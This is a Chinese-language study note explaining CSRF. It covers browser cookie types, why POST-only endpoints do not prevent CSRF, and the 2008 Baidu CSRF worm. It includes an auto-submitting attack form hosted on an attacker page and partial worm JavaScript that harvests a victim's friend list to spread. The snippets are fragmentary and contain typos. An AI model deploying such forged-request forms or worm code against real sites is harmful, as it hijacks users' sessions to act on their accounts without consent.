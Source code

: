 #CSRF

Cross Site Request Forgery


##Classic CSRF attack

![Classic CSRF attack](img/csrf attack.png)

##浏览器的Cookie策略

攻击者通过实施CSRF攻击之所以能够成功，是因为攻击者通过用户的浏览器成功发送了Cookie的缘故。
浏览器所持有的Cookie分为两种：临时Cookie（Session Cookie）和本地Cookie（Third-party Cookie）。
Third-party Cookie可以保持登录信息到用户下次与服务器的会话。下次访问同一网站时，用户会发现不必输入用户名和密码就已经登录了。而Session Cookie在用户退出会话的时
候就被删除了。
Third-party Cookie在生成时就会被指定一个Expire值，这就是Cookie的生存周期，在这
个周期内Cookie有效，超出周期Cookie就会被清除。
在浏览网站的过程中，若是一个网站设置了Session Cookie，那么在浏览器进程的生命周期内，即使浏览器新打开了Tab页，Session Cookie也都是有效的，这样攻击者伪装来自受信任用户的请求来访问受信任的网站就如正常一般了。


##POST请求无法防范CSRF


一些人认为CSRF攻击只能由GET请求发起，只要把重要的操作改成只允许POST请求，就能防止CSRF攻击。但是对于很多网站的应用来说，一些重要操作并未严格区分GET与
POST，攻击者可以使用GET来请求表单的提交地址。
如：
     <form action=”/login” id=”login” method=”post”>
     <input type=text name=”username” value=””/>
     <input type=password name=”password” value=””/>
     <input type=submit name=”submit” value=”submit”/>
     </form>
用户可以尝试构造一个GET请求：
http://localhost/login?username=a&password=a

如果服务器端已经区分了GET和POST，这样攻击者可以构造一个POST请求。
最简单的方法是在一个页面中构造一个form表单，然后使用JavaScript自动提交这个表单。
攻击者在www.attack.com/attack.html 中编写如下代码：
     <form action=”http://www.target,com/login” id=”login” method=”post”>
     <input type=text name=”username” value=””/>
     <input type=password name=”password” value=””/>
     <input type=submit name=”submit” value=”submit”/>
     </form>
     <script>
     var a = document.getElementById(“login”);
     a.inputs[0].value = “a”;
     a.inputs[1].value = “a”;
     f.submit();
     </script>

##CSRF Worm

2008年9月，国内的安全组织80sec公布了一个百度的CSRF worm

漏洞出现在百度用户中心的发送短消息功能中：

http://msg.baidu.com/?ct=22&cm=MailSend&tn=bmSubmit&sn=用户账户&co=消息内容

只需要修改参数sn，即可对指定的用户发送短消息。而百度的另外一个接口则能查询出某个用户的所有好友：

http://frd.baidu.com/?ct=28&un=用户账户&cm=FriList&tn=bmABCFriList&callback=gotfriends

将两者结合起来，可以组合成一个CSRFworm——让一个百度用户查看恶意页面后，将给他的好友发送一条短消息，然后这条短消息中又包含一张图片，其地址再次指向CSRF页面，使得这些好友再次执行上一个操作。

Step 1：

     var lsURL=window.location.href;
     loU = lsURL.split(“?”);
     if(loU.length>1)
     {
      var loallPm = loU[1].split(“&”);
     ....

定义蠕虫页面服务器地址，取得？和&符号后的字符串，从URL中提取感染蠕虫的用户名和感染者好友的用户名。

Step 2:

     var gotfriends = function (x)
     {
      for(i=0;i<x[2].length;i++)
        {
          friends.push(x[2][i][1]);
        }
     }
     loadtom(‘<script scr=”http://frd.baidu.com/?ct=28&un=”+lusername+”&cm=FriList&tn=bmABCFriList&callback=gotfriends&.tmp=&1=2”></script>’);
     
通过CSRF漏洞从远程加载受害者的好友tom数据，根据该接口的tom数据格式，提取好友数据为蠕虫的传播流程做准备。

Step 3：感染信息输出和消息发送的核心部分。

这个蠕虫很好地展示了CSRF的破坏性--即使没有XSS漏洞，仅仅依靠CSRF，也能够发起大规模蠕虫攻击。
